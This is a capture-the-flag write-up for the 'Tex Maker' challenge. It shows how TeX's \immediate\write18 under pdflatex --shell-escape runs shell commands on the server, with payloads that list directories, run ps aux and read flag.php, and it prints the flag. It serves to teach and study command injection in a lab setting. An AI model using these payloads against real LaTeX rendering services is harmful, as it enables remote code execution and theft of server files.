 #  Tex Maker
 > Description: Creating and using coperate templates is sometimes really hard. Luckily, we have a webinterace for creating PDF files. Some people doubt it's secure, but I reviewed the whole code and did not find any flaws.

> Service: https://texmaker.ctf.internetwache.org

## Solution
To solve this challenge, we use the fact that the code aparently has been reviewed, by someone not familar with TeX.

In TeX you can insert the result of commands directly in your document, so all we have to do is a little bit of
exploring, in the local environment on which the challenge runs.

# Step 1: Is the Tex vulnerable
Before we go on we just insert a tex command to execute a local command and get the result out.
We craft our document like this:

>  \immediate\write18{ls /}

This seems to work as we get a listing in our output, when we generate the document.


#Setp 2: Where are the files!
Now we need to know where the webservice keeps its files, we could do a directory traversal manually, but
we have no time for that, we issue a "ps aux" command instead.

>  \immediate\write18{ps aux/}


> web90 16701  0.0  0.0  4336  756 ?  S    10:51   0:00 sh -c cd /var/www/texmaker.ctf.internetwache.org/compile/ && /usr/bin/pdflatex --shell-escape 85c81cdeb3192d6ffe41f54f8119f0e4.tex

From the above, we can see that the root of this challenge is in 
 /var/www/texmaker.ctf.internetwache.org/


We list this directory 
>   \immediate\write18{ls /var/www/texmaker.ctf.internetwache.org/}


And find some interesting file

flag.php


#Setp 3: Profit!

We display the conternt of the flag.php file 

>    \immediate\write18{cat /var/www/texmaker.ctf.internetwache.org/flag.php}

And we get the following:

> $FLAG = "IW{L4T3x_IS_Tur1ng_c0mpl3te}";

Mission Complete!
